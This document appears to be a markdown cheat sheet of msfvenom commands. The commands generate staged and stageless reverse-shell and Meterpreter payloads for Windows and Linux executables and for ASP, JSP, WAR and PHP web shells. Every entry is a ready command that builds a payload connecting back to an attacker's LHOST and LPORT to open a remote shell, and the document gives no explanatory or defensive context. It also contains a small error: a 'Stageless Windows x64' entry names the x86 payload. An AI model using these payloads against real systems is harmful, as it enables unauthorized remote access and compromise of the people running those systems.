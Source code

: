 # Non-Meterpreter Binaries

### Staged Payloads for Windows
  x86	<br/>
  msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
  
  x64	<br/>
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
  
### Stageless Payloads for Windows
  x86 	<br/>
  msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
  
  x64 	<br/>
  msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe

### Stageless Payloads for Linux
  x86 	<br/>
  msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
  
  x64 	<br/>
  msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
  
# Non-Meterpreter Web Payloads
  asp	<br/>
  msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
  
  jsp	<br/>
  msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
  
  war	<br/>
  msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
  
  php	<br/>
  msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
  
# Meterpreter Binaries
  
### Staged Payloads for Windows
  x86	<br/>
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
  
  x64	<br/>
  msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
  
### Stageless Payloads for Windows
  x86	<br/>
  msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
  
  x64	<br/>
  msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
  
### Staged Payloads for Linux
  x86	<br/>
  msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
  
  x64	<br/>
  msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
  
### Stageless Payloads for Linux
  x86	<br/>
  msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
  
  x64	</br>
  msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
  
# Meterpreter Web Payloads
  
  asp	<br/>
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
  
  jsp	<br/>
  msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > example.jsp
  
  war	<br/>
  msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > example.war
  
  php	<br/>
  msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
  

